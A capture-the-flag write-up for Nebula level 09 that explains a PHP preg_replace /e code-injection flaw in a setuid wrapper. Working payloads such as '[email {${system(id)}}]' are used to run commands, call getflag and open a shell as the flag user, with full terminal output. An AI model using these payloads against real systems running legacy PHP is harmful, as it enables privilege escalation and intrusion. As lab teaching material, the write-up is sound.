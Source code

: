 ```yaml
---
layout: post
title: "Nebula09"
---
```



## Level 09

> There’s a `C` setuid wrapper for some vulnerable `PHP` code. To do this level, log in as the `level09` account with the password `level09`. Files for this level can be found in `/home/flag09`.

## Source code

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

## Getting the flag

This program expects the path to the file as an argument and expects something like `[email something@domain.com]` in it.  
Let's try it out and see the proper flow of the program:

```
level09@nebula:/home/flag09$ echo "[email something@domain.com]" > /tmp/test 
level09@nebula:/home/flag09$ ./flag09 /tmp/test 

PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
something AT domain dot com
```

We will need to dig a little bit to find the vulnerability here. The [preg_replace](https://www.php.net/manual/en/function.preg-replace.php) is using `e` [pattern modifier](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php), which was removed in `PHP7`. The `preg_replace` with the `e` modifier takes the user input and interprets it as `PHP` code. Allowing the user to inject the `PHP` code as an input, sounds dangerous, right? 
Let's try some command injection now:

```
level09@nebula:/home/flag09$ cat /tmp/test 
[email {${system(id)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant id - assumed 'id' in /home/flag09/flag09.php(15) : regexp code on line 1
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
PHP Notice:  Undefined variable: uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09) in /home/flag09/flag09.php(15) : regexp code on line 1
```

There we have it! To the flag now!

```
level09@nebula:/home/flag09$ cat /tmp/test 
[email {${system(getflag)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/flag09/flag09.php(15) : regexp code on line 1
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
```

Bonus points for getting the shell 

```
level09@nebula:/home/flag09$ cat /tmp/test 
[email {${system(sh)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/flag09/flag09.php(15) : regexp code on line 1
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```